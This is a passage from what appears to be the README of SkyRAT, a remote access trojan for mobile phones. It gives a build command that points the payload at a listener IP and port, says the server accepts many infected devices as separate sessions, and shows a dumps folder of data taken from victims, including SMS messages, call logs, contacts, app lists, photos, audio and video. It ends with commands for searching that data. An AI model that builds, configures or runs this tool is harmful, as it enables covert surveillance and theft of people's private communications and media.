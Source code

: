 #### **Custom Port Selection**
```bash
# Use different port if 8000 is busy
python3 skyrat.py --build -i 192.168.1.100 -p 9999

# Check port availability
netstat -ln | grep 8000
```

#### **Multiple Connections**
```bash
# Server supports multiple concurrent connections
# Each device appears as separate session
```

## 📊 Data Management

### **Output Organization**
SkyRAT automatically organizes extracted data:

```
dumps/
├── inbox_SMS_20240315-143022.txt
├── sent_SMS_20240315-143045.txt  
├── Call_Logs_20240315-143123.txt
├── Contacts_20240315-143156.txt
├── Applications_20240315-143201.txt
├── Downloaded_20240315-143301_photo.jpg
├── Audio_20240315-143456.m4a
└── Video_20240315-143612.mp4
```

### **File Formats**
- **Text data**: UTF-8 encoded .txt files
- **Images**: Original format (JPG, PNG, etc.)
- **Audio**: M4A, 3GP, or MP4 format
- **Video**: MP4 or 3GP format
- **Files**: Original format preserved

### **Data Analysis**
```bash
# Analyze extracted data
grep "keyword" dumps/inbox_SMS_*.txt
wc -l dumps/Call_Logs_*.txt
file dumps/Downloaded_*
```

## 🔧 Troubleshooting

### **Common Issues**
